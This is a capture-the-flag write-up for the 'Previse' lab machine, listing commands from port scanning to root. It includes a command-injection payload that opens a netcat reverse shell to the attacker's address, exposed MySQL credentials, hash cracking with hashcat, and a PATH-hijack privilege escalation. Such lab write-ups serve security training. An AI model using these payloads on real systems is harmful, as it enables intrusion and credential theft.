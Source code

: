 # PREVISE

### User Flag

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn
 10.10.11.104                                                                     
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

we now fuzz the webpage

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.104:80/FUZZ -recursion -e .php -v -t 200    

```

a lot of directories and files appear but most of them return code 302 so we bypass that using burp and manage to get into http://10.10.11.104/accounts.php and we create an account. now if we download site backup.zip and search a bit we can find user and password for mysql

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

also in logs.php we can find a key vulnerability, php is using the exec function with a parameter

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

so we now go to log data and again with burp change the request like this to create a reverse shell

```
delim=comma;nc 10.10.14.159 4445 -e /bin/bash
```

**note that we need to open our port 4445**

once we are in we can execute for a better interface
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

we are now inside the machine and can get into de database

```bash
www-data@previse:/var/www/html$ mysql -u root -p
mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)
```

we get into the previse database and print it

```bash
mysql> select * from accounts
select * from accounts
    -> ;
;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
+----+---------------+------------------------------------+--------------------
```

now we copy the password hash and decrypt it via hashcat

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -m 500 hash2.txt rockyou.txt
```

we know the format (500) thanks to hashcat official webpage.
We found the password is **ilovecody112235!** so we connect via ssh an get the user Flag

### Root flag

if we look arround we'll find that in /opt/scripts there is a file called **access_backup.sh** which has a comment that says:

```
# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
```

so by looking and the code we know we can make a path manipulation attack

we create a file called date and gzip in any directory we want and fill it with

```bash
/bin/cat /root/root.txt > /tmp/a.txt
```

lastly we run the following command so we get the key in /tmp/a.txt

```bash
PATH=/tmp /usr/bin/sudo ./access_backup.sh
```
